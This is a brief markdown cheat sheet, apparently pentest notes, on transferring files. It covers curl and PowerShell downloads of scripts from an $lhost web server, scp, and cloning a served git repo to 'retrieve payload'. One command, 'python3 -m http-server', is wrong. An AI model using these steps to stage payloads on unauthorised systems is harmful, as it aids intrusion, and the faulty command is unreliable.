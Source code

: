 ## Simple HTTP server
Serve file locally:
- `python3 -m http-server`
Retrieve file on remote host:
- Linux: `curl http://$lhost:8000/file.sh > file.sh`
- WIndows: `iwr -URI http://$lhost:8000/file.ps1 -UseBasicParsing -OutFile file.ps1`
## SCP
- `scp user@host1.local:/file/to/send user@host2.local:/where/to/place`
## Git
Set up git repo locally:
- `git init`
- `git add . && git commit -m "commit 1"`
- `cd .git && git --bare update-server-info && cd ..`
- `python3 -m http.server`
Retrieve Payload:
- `git clone http://127.0.0.1:8000/.git/`
